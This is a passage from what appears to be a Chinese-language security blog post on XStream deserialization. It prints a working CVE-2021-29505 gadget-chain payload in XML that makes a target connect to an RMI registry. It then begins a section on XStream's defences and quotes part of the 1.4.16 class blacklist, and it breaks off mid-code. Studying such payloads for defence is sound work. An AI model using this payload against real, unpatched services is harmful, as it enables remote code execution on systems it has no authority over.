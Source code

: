 [](#CVE-2021-29505 "CVE-2021-29505")CVE-2021-29505
--------------------------------------------------

```plain
<map>
  <entry>
    <string>foo</string>
    <string>foo</string>
  </entry>
  <entry>
    <com.sun.jndi.rmi.registry.BindingEnumeration>
      <ctx>
        <environment/>
        <registry class="sun.rmi.registry.RegistryImpl_Stub" serialization="custom">
          <java.rmi.server.RemoteObject>
            <string>UnicastRef</string>
            <string>127.0.0.1</string>
            <int>1099</int>
            <long>0</long>
            <int>0</int>
            <long>0</long>
            <short>0</short>
            <boolean>false</boolean>
          </java.rmi.server.RemoteObject>
        </registry>
        <host>127.0.0.1</host>
        <port>1099</port>
      </ctx>
      <names>
        <string>aa</string>
      </names>
      <nextName>0</nextName>
    </com.sun.jndi.rmi.registry.BindingEnumeration>
    <com.sun.jndi.rmi.registry.BindingEnumeration reference="../com.sun.jndi.rmi.registry.BindingEnumeration"/>
  </entry>
</map>
```

[](#XStream的防御措施 "XStream的防御措施")XStream的防御措施
--------------------------------------------

### [](#黑名单 "黑名单")黑名单

在>1.4.6之后的版本中，XStream引入了安全机制，以避免反序列化问题。

Wh1t3p1g师傅《回顾XStream反序列化漏洞》一文中0x03一节中解释得很好了，这里不赘述。贴一下参考【2】中提到的最新版1.4.16的黑名单。

```java
private static final String ANNOTATION_MAPPER_TYPE = "com.thoughtworks.xstream.mapper.AnnotationMapper";
private static final Pattern GETTER_SETTER_REFLECTION = Pattern.compile(".*\\$GetterSetterReflection");
private static final Pattern PRIVILEGED_GETTER = Pattern.compile(".*\\$PrivilegedGetter");
private static final Pattern LAZY_ITERATORS = Pattern.compile(".*\\$LazyIterator");
private static final Pattern JAXWS_ITERATORS = Pattern.compile(".*\\$ServiceNameIterator");
private static final Pattern JAVAFX_OBSERVABLE_LIST__ = Pattern.compile("javafx\\.collections\\.ObservableList\\$.*");
private static final Pattern JAVAX_CRYPTO = Pattern.compile("javax\\.crypto\\..*");
private static final Pattern BCEL_CL = Pattern.compile(".*\\.bcel\\..*\\.util\\.ClassLoader");

protected void setupSecurity() {
    if (this.securityMapper != null) {
        this.addPermission(AnyTypePermission.ANY);
```